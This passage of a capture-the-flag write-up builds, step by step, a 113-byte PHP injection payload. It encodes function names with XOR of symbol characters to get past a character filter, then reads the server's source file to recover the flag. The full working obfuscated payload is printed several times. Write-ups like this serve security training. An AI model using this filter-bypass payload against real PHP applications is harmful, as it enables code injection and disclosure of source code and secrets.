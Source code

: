 Replacing this with the original `file_get_contents` string in our payload yields the same results, success! Now we just need to convert the other parts of the payload. Remember to escape the `'` character in the string, or we will get syntax errors.

```php
?><?=('@@@@#@@^#@@@^@@^^'^'&),%|\'%*|#/.*%.*-')(__FILE__); // Outputs the current file content
```

However, we run into an issue. Converting `__FILE__` into our symbol payload, we see that PHP no longer recognizes it as a magic constant. Only functions seem to be recognized this way. We need to find an alternative to `__FILE__`. Looking at the PHP documentation, the function `get_included_files()` seems promising. This function returns an array of all included files. The first element being our current file.

```php
?><?=file_get_contents(get_included_files()[0]);
```

This also works, and it's not much longer. Lets encode this into our symbol payload.

```php
?><?=('@@@@#@@^#@@@^@@^^'^'&),%|\'%*|#/.*%.*-')(('@@^#@@@@^^@^#@@@@^'^'\'%*|).#,+:%:|&),%-')()[0]);
```

This still works, and looks... insane 😵‍💫

But now we have a problem. We have no combination representing the `0`, at least not with our current allowed character set. However, we aren't as limited any more. We still have a bunch of combinations that we can reuse in more combinations! With some trial and error, I found out we can represent the character `0` with this nested xor operation.

```php
('%'^('*'^'?')) // Output: 0
```

Lets now replace the `0` in our payload, and then it should be done!

```php
?><?=('@@@@#@@^#@@@^@@^^'^'&),%|\'%*|#/.*%.*-')(('@@^#@@@@^^@^#@@@@^'^'\'%*|).#,+:%:|&),%-')()[('%'^('*'^'?'))]);
```

This payload is 113 bytes long, which is within our limit. Now we can submit this to the server and read the output.

```php
<?php
class Flag {
    private string $flag = "DDC{PHP_f0r_Dumm13s}";

    public function __construct() {
        $this->flag = "Prøv igen";
    }
} 
```

And there we have it! The flag is 🚩 `DDC{PHP_f0r_Dumm13s}` 🚩

## 🤓 TL;DR
1. Use `file_get_contents()` to read the current file source (Which is not disabled)
2. Create XOR combinations of symbols (`^`) to represent alphanumeric characters
3. Use `get_included_files()[0]` instead of `__FILE__` to reference the current file
4. Build nested XOR operations for complex characters (0)
5. Create a 113-byte payload that satisfied all restrictions

Final payload:
```php
?><?=('@@@@#@@^#@@@^@@^^'^'&),%|\'%*|#/.*%.*-')(('@@^#@@@@^^@^#@@@@^'^'\'%*|).#,+:%:|&),%-')()[('%'^('*'^'?'))]);
```
